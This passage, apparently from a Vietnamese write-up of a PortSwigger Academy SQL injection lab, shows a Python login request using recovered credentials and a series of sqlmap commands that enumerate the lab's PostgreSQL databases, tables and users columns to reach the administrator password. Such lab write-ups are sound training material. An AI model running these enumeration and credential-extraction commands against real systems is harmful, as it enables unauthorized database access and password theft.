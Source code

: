 ```python
    'password' : password,
    'csrf' : csrf,
}
response = session.post(
    url + "/login",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/HkqnlYhqa.png)

mục đích của chúng ta đã hoàn thành và mình đã giải quyết được lab này

![image](https://hackmd.io/_uploads/BydJZK296.png)

### SQLMAP

- mình đã làm lại bài này với sqlmap
- đầu tiên mình chạy tấn công mặc định và tìm tên database có trong cơ sở dữ liệu bằng lệnh

```sql!
sqlmap -u https://0aab000904533546845efe8600ce00bb.web-security-academy.net/filter?category=Lifestyle  --batch --dbs
```

và mình được database tên **public**

![ảnh](https://hackmd.io/_uploads/BJR__5Sha.png)

cùng với đó biết được lab dùng CSDL PostgreSQL và có thể tấn công bằng UNION query

![ảnh](https://hackmd.io/_uploads/H1LmFcH36.png)

- mình tiếp tục liệt kê các bảng trong database này bằng lệnh

```sql!
sqlmap -u https://0aab000904533546845efe8600ce00bb.web-security-academy.net/filter?category=Lifestyle  --batch -D public --tables
```

và mình được 2 bảng

![ảnh](https://hackmd.io/_uploads/HJZzY5Hn6.png)

mục đích của bài là lấy được password của administrator nên mình vào table **users** và xem cấu trúc của bange này bằng lệnh

```sql!
sqlmap -u https://0aab000904533546845efe8600ce00bb.web-security-academy.net/filter?category=Lifestyle  --batch -D public -T users --columns
```
